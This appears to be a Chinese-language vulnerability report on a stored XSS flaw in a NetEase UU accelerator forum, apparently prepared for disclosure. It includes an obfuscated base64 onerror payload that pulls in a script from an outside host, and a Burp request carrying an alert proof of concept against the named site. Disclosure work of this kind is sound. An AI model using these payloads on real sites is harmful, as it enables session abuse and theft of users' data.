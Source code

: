 
        {"path":"/message/apps/uu/server/create_message","method":"POST","params":{"uid":"140250100348","category":"64e4cadffe367318734c6c26","category_name":"64e4cadffe367318734c6c26","content":"占位223<img src=x onerror=eval(atob('dmFyIHNjcmlwdD1kb2N1bWVudC5jcmVhdGVFbGVtZW50KCdzY3JpcHQnKTtzY3JpcHQuc3JjPSdodHRwczovL3VyY2hpbi5ub3Nkbi4xMjcubmV0L3lzJTJGNTkyYjUxNGQyYmRkNGJmMDhiZmI1YmRiNzQ1ZGY3Y2MnO2RvY3VtZW50LmdldEVsZW1lbnRzQnlUYWdOYW1lKCdib2R5JylbMF0uYXBwZW5kQ2hpbGQoc2NyaXB0KTs='))>\n","extra":"{\"device_name\":\"web\",\"platform\":\"web\",\"posts\":{\"gid\":\"596dd2b6e3a8b2614a13b413\",\"coid\":\"596dd2b6e3a8b2614a13b413\"}}","user_info":{"game_uid":"140250100348","name":"笠泽九斤翅子树","avatar":"https://uum.fp.ps.netease.com/file/5d3fe7616f04942682c67a4clvtOFQXb02","user_type":1,"extra":"{\"user_title\":{},\"level_info\":{\"level\":2,\"cur_exp\":150,\"battery\":4,\"total_exp\":250}}"},"device":{"device_id":"jssdk_pbRJTpNazMAEeEM2"}},"id":"64e4cadffe367318734c6c26","server_type":1}

## 漏洞描述
网易UU加速器论坛深井`https://sowellwell.com`的发帖和回复存在XSS存储型漏洞，攻击者能够将XSS脚本嵌入PC端浏览器页面和手机端Webview页面，实现信息窃取（手机号，pc和手机端）、代替用户发送任意帖子或评论（pc端）、自动点赞收藏关注等恶意行为。

### 详细说明
请按照逻辑对漏洞复现进行描述，提供危害说明和测试步骤。若使用工具复现漏洞，应提供工具详情
#### 漏洞触发
1. 登录深井Web平台`https://sowellwell.com`
2. 发送帖子，用burpsuite截取发帖POST为`https://sowellwell.com/w/v1/community/post/new`
![post](./images/post.png)
3. 将请求发送到burp repeater，修改发帖内容为img onerror触发的弹窗，然后发送

        POST /w/v1/community/post/new HTTP/2
        Host: sowellwell.com
        Cookie: xxx
        Content-Length: 232
        Identifier: jssdk_pbRJTpNazMAEeEM2
        Accept: application/json, text/plain, */*
        Content-Type: application/json;charset=UTF-8
        Sec-Ch-Ua: "Chromium";v="116", "Not)A;Brand";v="24", "Google Chrome";v="116"
        Sec-Ch-Ua-Mobile: ?0

        {"coid":"","coids":[],"title":"鹅鸭杀有组队的吗？","content":"<div id=\"mobile_article_theme_warm\" class=\"content_markdown_body\"><p>如题<img src=x onerror=alert(document.domain)></p></div>","device_name":"Web","watermark":true,"media":[],"publish_type":"post"}

4. 发送帖子后，进入发送的帖子页面，可以看到弹窗已经触发